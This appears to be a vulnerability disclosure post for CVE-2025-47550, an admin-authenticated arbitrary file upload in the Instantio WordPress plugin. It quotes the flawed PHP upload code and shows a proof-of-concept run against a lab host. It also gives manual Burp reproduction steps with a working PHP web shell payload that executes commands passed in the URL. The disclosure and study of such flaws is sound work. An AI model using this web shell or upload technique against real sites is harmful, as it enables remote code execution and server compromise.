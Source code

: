 +++
title = 'Instantio - Wordpress Plugin <= 3.3.16 - Authenticated (Admin+) Arbitrary File Upload via ins_options_save'
date = 2025-05-07T05:18:12+00:00
hideToc = true
+++

### CVE-2025-47550

The [Instantio](https://wordpress.org/plugins/instantio/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47550.py](https://github.com/d0n601/CVE-2025-47550/blob/main/CVE-2025-47550.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
% python3 CVE-2025-47550.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 33750sec preferred_lft 33750sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86119sec preferred_lft 14119sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `ins_options_save` functionality in `/wp-content/plugins/instantio/admin/tf-options/classes/Ins_TF_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [965-972](https://plugins.trac.wordpress.org/browser/instantio/trunk/admin/tf-options/classes/Ins_TF_Settings.php#L965-972) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Instantio -> Settings`.

2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 

3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-47550/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](/posts/images/cve-2025-47550/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```


6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-47550/3.png)